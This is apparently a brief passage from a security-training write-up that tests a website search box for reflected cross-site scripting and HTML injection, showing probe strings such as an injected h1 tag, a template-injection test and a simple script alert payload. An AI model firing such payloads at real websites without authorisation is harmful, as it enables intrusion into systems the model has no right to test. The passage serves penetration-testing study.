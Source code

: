 <figure><img src="../../../.gitbook/assets/image (109).png" alt=""><figcaption></figcaption></figure>

I will try use some tags to test rxss <mark style="color:red;">**`'"><h1>Hacked</h1>`**</mark>

<mark style="color:blue;">**`the best`**</mark> **`'"><h1>Hacked</h1>{7*7}}JyI+PGgxPmhhY2tlZDwvaDE+`**

<figure><img src="../../../.gitbook/assets/image (110).png" alt=""><figcaption></figcaption></figure>

Ok this search Vulnerable HTML injection &&  RXSS

Simple JS payload

```javascript
<script>alert('OSCP+EWAPTXv2')</script>
```

<figure><img src="../../../.gitbook/assets/image (111).png" alt=""><figcaption></figcaption></figure>
